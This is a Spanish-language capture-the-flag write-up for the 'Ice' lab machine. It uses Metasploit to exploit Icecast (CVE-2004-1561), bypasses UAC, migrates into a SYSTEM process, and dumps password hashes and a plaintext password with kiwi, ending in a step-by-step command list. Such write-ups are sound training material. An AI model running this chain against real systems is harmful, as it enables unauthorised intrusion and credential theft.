# Write-up Ice

## Reconocimiento

Empiezo con un reconocimiento de puertos usando `nmap`:

```bash
db_nmap -sS -sV -O -T4 IP
```

Con este escaneo saco los datos que pide la máquina:

- Puerto de MSRDP: `3389`
- Puerto de Icecast: `8000`
- Hostname detectado: `DARK-PC`



## Enumeración

Una vez visto que el servicio más interesante es Icecast, busco vulnerabilidades asociadas.





Revisando CVEs, encuentro `CVE-2004-1561`, que además tiene exploit público y encaja con la pista de la sala.

https://www.cvedetails.com/cve/CVE-2004-1561/

Después busco módulos en Metasploit con `search icecast` y veo que el módulo que me interesa es:

```bash
exploit/windows/http/icecast_header
```

## Explotación

Configuro `RHOSTS` y `LHOST`, lanzo el exploit y consigo una sesión de `meterpreter`.

## Post-explotación

### Enumeración básica

Con la sesión abierta, lo primero que hago es comprobar en qué contexto he caído:

- `getuid`
- `sysinfo`
- `pwd`




Después reviso los privilegios actuales con `getprivs`:



Aquí se ve que los privilegios siguen siendo bastante limitados, así que el siguiente paso es escalar.

## Escalada de privilegios

Para ver posibles vías de escalada, ejecuto:

```bash
run post/multi/recon/local_exploit_suggester
```



La propia máquina sugiere usar:

```bash
exploit/windows/local/bypassuac_eventvwr
```

Dejo la sesión actual en segundo plano con `background`, asigno esa sesión al exploit con `set SESSION <ID>` y lo ejecuto con `run`.

Esto me abre una nueva sesión de `meterpreter`.

Vuelvo a revisar los privilegios con `getprivs`:



Ahora sí tengo un contexto mucho más útil para seguir avanzando.

### Hashes y migración de proceso

Con privilegios elevados, hago un `hashdump` y obtengo los hashes del sistema:

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
```

En este punto, la sala pide interactuar con `lsass`, así que necesito migrar a un proceso que esté corriendo como `NT AUTHORITY\SYSTEM`, ya que la sesión actual todavía no me vale para eso.

Enumero procesos con `ps` y veo que una opción típica para migrar es `spoolsv.exe`, en este caso con PID `1264`.



Migro a ese proceso con:

```bash
migrate -P <PID>
```



Después de migrar, ya quedo ejecutando como `NT AUTHORITY\SYSTEM`:



## Resultado

### Obtención de credenciales

Como la máquina también pide usar `kiwi`, cargo el plugin y ejecuto `creds_all` para extraer credenciales en texto claro.



Las credenciales obtenidas son:

- Username: `Dark`
- Domain: `DARK-PC`
- Password: `Password01!`

## Resumen de comandos directo a SYSTEM/root

1. `db_nmap -sS -sV -O -T4 IP`
2. `search icecast`
3. `use exploit/windows/http/icecast_header`
4. `set RHOSTS IP`
5. `set LHOST TU_IP`
6. `run`
7. `background`
8. `use exploit/windows/local/bypassuac_eventvwr`
9. `set SESSION <ID>`
10. `set LHOST TU_IP`
11. `run`
12. `hashdump`
13. `ps`
14. `migrate -P <PID>`  `# buscar un proceso como spoolsv.exe`
15. `getuid`
16. `load kiwi`
17. `creds_all`
